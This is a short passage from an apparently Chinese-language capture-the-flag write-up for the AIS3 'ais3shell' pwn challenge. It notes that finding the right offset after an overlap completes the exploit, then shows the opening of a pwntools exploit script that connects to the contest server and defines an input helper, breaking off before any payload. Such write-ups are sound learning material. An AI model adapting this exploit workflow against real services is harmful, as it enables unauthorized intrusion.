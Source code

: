 ![image-20210522174936165](./img/image-20210522174936165.png)

一旦疊到之後就可以嘗試找到正確的 offset 就可以完成 exploit

### exploit

``` python
#!/usr/bin/env python3
from pwn import *
import sys
import pwnlib.shellcraft
import pwnlib
import pickle

debug = 0

c = 0
pwn_file = "./ais3shell"
elf = ELF(pwn_file)
#libc = ELF('libc-2.31.so')

context.os='linux'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 100
context.log_level = 0

c = 0
if debug == 1:
    c = process(pwn_file)
    elf_path = c.cwd + pwn_file.strip('.')
    gdbcmd = '''
    set $elf={}
    #b *$elf+0xbfc
    '''.format(hex(c.libs()[elf_path]))
    gdb.attach(c, gdbscript=gdbcmd)
else:
    c = remote('quiz.ais3.org', 10103)


def define(cmd_len, cmd, script_len, script):
    c.sendlineafter("$", "define")
    c.sendlineafter("Length of command name:", str(cmd_len))
    c.sendlineafter("Command name:", cmd)
    c.sendlineafter("Length of command:", str(script_len))
    c.sendlineafter("Command:", script)
```
